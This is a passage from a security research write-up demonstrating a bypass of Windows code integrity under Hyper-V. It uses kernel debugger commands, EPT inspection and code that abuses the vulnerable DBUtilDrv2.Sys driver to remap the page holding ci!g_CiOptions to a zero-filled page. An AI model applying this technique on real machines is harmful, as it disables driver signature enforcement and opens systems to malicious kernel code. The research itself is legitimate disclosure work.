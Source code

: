 2. Confirm that `ci!g_CiOptions` is non-zero

    ```
    kd> dd ci!g_cioptions l1
    fffff802`4b082004  0001c006

    kd> !dd 11ceaa004 l1
    #11ceaa004 0001c006
    ```

3. Confirm that `ci!g_CiOptions` is read-only in EPT

    We break into the target's Hyper-V from another machine and dump EPT entries for the GPA using the [hvexts](https://github.com/tandasat/hvext) extension.
    ```
    hv+0x239e70:
    fffff844`49cd9e70 cc              int     3
    hvext loaded. Execute !hvext_help [command] for help.

    kd> !ept_pte 0x11ceaa000
        (...)    PTe at 0x11b49a550
        (...)    contains 0x1000011ceaa531
        (...)    pfn 0x11ceaa U---R
    ```
    Notice `U---R`, which indicates that the page is not writable at the EPT level.

4. Find a page filled with zero

    In this demo, we use an existing zero-filled page as a new GPA of `ci!g_CiOptions`, instead of creating a copy as explained above. This is possible because our goal is simply to make the variable zero, and the page containing the variable has only a few other variables that are ok to become zero as well.

    We found `0x200000` was one of such zero-filled pages.
    ```
    kd> !dd 200000
    #  200000 00000000 00000000 00000000 00000000
    #  200010 00000000 00000000 00000000 00000000
    ...
    ```

5. Modify the PTE to translate the page into the zero-filled page

    We install `DBUtilDrv2.Sys` on the target and use its arbitrary kernel-mode write primitive to update the PTE to point to `0x200000`. I added the below code to [malk](https://github.com/worawit/malk) for this.
    ```cpp
    {
        // Hard-coded value taken from the previous step
        ULONG64 cioptions_addr = 0xfffff8024b082004;
        ULONG64 pte_addr = 0xffffee7c01258410;
        ULONG64 new_pte_value = 0x8900000000200121; // pfn == 200000
